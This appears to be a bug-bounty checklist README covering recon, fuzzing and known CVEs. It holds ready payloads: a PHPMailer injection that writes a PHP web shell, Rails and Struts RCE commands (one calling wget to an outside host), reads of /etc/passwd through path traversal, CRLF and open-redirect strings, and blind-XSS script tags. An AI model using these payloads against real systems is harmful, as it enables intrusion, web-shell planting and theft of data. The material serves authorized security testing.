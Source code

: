 # 🎯 Smart Hunting Checklist 😉

A comprehensive checklist for smart and advanced bug hunting. Includes recon, vulnerability testing, CVEs, fuzzing, logic flaws, and blind XSS.

---

## 🛰️ Reconnaissance

- [ ] `gau --threads 40 target.com`  
  📌 *Example:* Extract archived URLs for deeper testing  
- [ ] `waybackurls target.com`  
  📌 *Example:* Retrieve old endpoints from the Wayback Machine  
- [ ] Check GitHub using dorks  
  📌 *Example:* Search with dork: `password filename:.env`  
- [ ] Test for misconfigured storage buckets  
  📌 *Example:* Access `https://storage.googleapis.com/<org-name>`  
- [ ] Unauthorized access to Google Groups  
  📌 *Example:* `https://groups.google.com/a/target.com`  
- [ ] `blc http://target.com -ro`  
  📌 *Example:* Check for broken links on the target site  
- [ ] Email verification abuse  
  📌 *Example:* Try registering `admin@target.com`

---

## 🔍 Fuzzing & Enumeration

- [ ] VHost fuzzing  
  📌 *Example:* Test subdomains like `admin.target.com`, `dev.target.com`  
- [ ] Fuzz Atlassian endpoints  
  📌 *Example:* `targetname.atlassian.net`  
- [ ] Fuzz Jira installations  
  📌 *Example:* `jira.target.com`  
- [ ] Fuzz `.xhtml` files  
  📌 *Example:* `/orders.xhtml`  
- [ ] Sensitive file access via weird paths  
  📌 *Example:* `target.com/home/....4....json`  
- [ ] Key/Token discovery  
  📌 *Example:* Look for API keys in JavaScript or GitHub

---

## 🧪 Vulnerability Testing

### 🧊 Web Cache Deception

- [ ] Add `X-Forwarded-Host: target.com` in Burp > Options  
  📌 *Example:* Search for this header in logs or cached responses

### 🔄 HTTP Methods

- [ ] Change request method to `TRACE`  
  📌 *Example:* `TRACE / HTTP/1.1` might leak headers

### 🔁 HTTP Request Smuggling

- [ ] Test for Request Smuggling  
  📌 *Example:* Try TE/CL desync techniques

### 🔐 CRLF Injection

- [ ] Test for CRLF Injection  
  📌 *Example:* `%0d%0aSet-Cookie: hacked=1`

### 🔀 Open Redirect Bypass

- [ ] Bypass filters  
  📌 *Example:* `//evil.com%2F@target.com`

### 🧠 Business Logic Bugs

- [ ] Test account deletion logic  
  📌 *Example:* Register > Delete > Register again with same username

---

## 💥 Known Exploits & CVEs

- [ ] `CVE-2016-10033` — PHPMailer RCE
  📌 *Example:*
```bash
email: "attacker@127.0.0.1" -oQ/tmp/ -X/var/www/shell.php root"@127.0.0.1
subject: <?php system($_GET['cmd']); ?>
```
- [ ] `CVE-2013-0156` — Ruby on Rails Object Injection
📌 *Example:*  
```bash
ruby rails_rce.rb http://target.com 'cp /etc/passwd public/me.txt'
```
- [ ] `CVE-2019-11043` — PHP-FPM RCE on NGINX
📌 *Example:* 
```bash
./phuip-fpizdam http://target.com/info.php
```
- [ ] `CVE-2019-19781` — Citrix Directory Traversal
📌 *Example:*
```bash
curl -vk -path-as-is https://$TARGET/vpn/../vpns/
```
- [ ] Apache Struts RCE
📌 *Example:*
```bash
python struts-pwn.py -u http://target.com/orders.xhtml -c "wget http://ip:1337/test"
```
---
## 🐛 Common OWASP Vulns
- [ ] Use `gf + ffuf` to find XSS, LFI, SQLi, SSRF
📌 *Example:*
```bash
gau target.com | gf xss,lfi,sqli,ssrf | qsreplace FUZZ | ffuf -u FUZZ -w payloads/xss.txt -fr "FUZZ"
```
- [ ] Try file traversal payloads in `Accept:` header (Django/Rails/Node)
📌 *Example:*
```bash
Accept: ../../../../etc/passwd
```
- [ ] Test for SQLi and Path Traversal
📌 *Example:*
```bash
cat urls.txt | grep "?" | qsreplace ../../../../etc/passwd | ffuf -u FUZZ -w - -mr '^root:'
```
---
## 🧬 Crypto / Encoding Issues
- [ ] Electronic Code Book (ECB) pattern
📌 *Example:*
```text
Look for repeating blocks like AAAAAAA aaaaaa BBBBB
```
---
## 🕵️‍♂️ Blind XSS (BXSS)
- [ ] Inject BXSS payload in User-Agent header
📌 *Example:*
```bash
<script src=//xss.ht></script>
```
- [ ] Use payloads in error-generating forms (login, signup, forgot password)
- [ ] Set BXSS payload as password
📌 *Example:*
```bash
<script src=//xss.ht></script>
```
---
## 💡 Pro Tips
- [ ] Use `-t 50` in ffuf for speed
- [ ] Use `-fc 404` to skip 404 responses
- [ ] Always test responsibly - follow the program's scope and rules!


